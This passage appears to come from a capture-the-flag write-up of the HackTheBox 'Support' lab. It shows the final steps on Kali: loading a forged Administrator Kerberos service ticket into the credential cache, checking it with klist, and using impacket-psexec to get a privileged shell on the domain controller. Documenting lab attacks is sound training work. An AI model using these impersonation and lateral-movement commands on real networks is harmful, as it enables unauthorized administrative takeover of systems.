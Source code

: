 **Service Ticket successfully generated!**
At this point, I realized I didn't have any Kerberos-related tools on my Kali machine. I proceeded to install `krb5-user` to properly utilize the generated ticket:

```
sudo apt install krb5-user -y
```

```bash
┌──(uriel-sg㉿Uriel-SG)-[~/Scrivania/support]
└─$ export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

To verify that everything went smoothly, I ran `klist` to display the current Kerberos tickets in the cache:

```bash
┌──(uriel-sg㉿Uriel-SG)-[~/Scrivania/support]
└─$ klist
Ticket cache: FILE:Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
Default principal: Administrator@SUPPORT.htb

Valid starting       Expires              Service principal
07/04/2025 00:37:22  07/04/2025 10:37:22  cifs/dc.support.htb@SUPPORT.HTB
        renew until 08/04/2025 00:37:09

```

## FINAL SHOT

Now that we have our ticket, we're ready to concretely impersonate the Administrator by attempting to obtain a shell with psexec. Will it work...?

**Let’s try!**

```bash
┌──(uriel-sg㉿Uriel-SG)-[~/Scrivania/support]
└─$ impacket-psexec -k -no-pass SUPPORT.htb/Administrator@dc.support.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file JxMXhqkr.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service lPXa on dc.support.htb.....
[*] Starting service lPXa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> 

```

**BOOM!**
Privileged shell obtained and... 
